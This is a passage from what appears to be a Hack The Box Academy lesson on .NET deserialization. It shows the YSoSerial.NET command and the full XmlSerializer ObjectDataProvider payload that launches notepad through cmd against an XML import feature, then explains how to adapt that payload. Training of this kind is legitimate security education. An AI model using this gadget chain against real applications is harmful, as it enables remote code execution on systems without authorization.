 ![image](https://academy.hackthebox.com/storage/modules/240/3/58.png)

## Example 2: XML, Tee Import Feature

Let's look at how we could use `YSoSerial.NET` to generate a payload for the second vulnerability; the `Tee Import` feature which took a serialized `XML` string as input to `XmlSerializer`.

The command remains the same, changing only the selected formatter from `Json.Net` to `XmlSerializer`:

```powershell
PS C:\htb> .\ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad" -o Raw

```

The output `YSoSerial.NET` gives us is similar to the payload we developed with the main difference being the `XAML` string passed to `XamlReader.Parse` is wrapped inside a `ResourceDictionary` whereas our payload passed a `string`:

```xml
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c notepad</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>

```

This time, however, we can't just copy-paste the payload. If you remember from a previous section, the type needed to be specified, and the `ExpandedWrapperOfXaml<SNIP>` node needed to be renamed to `Tee`. Once we make the changes, the payload does work as intended, resulting in a `notepad.exe` process spawning, but this highlights the importance of understanding how the attack works so that we can adapt payloads to work in the specific scenarios we come across:
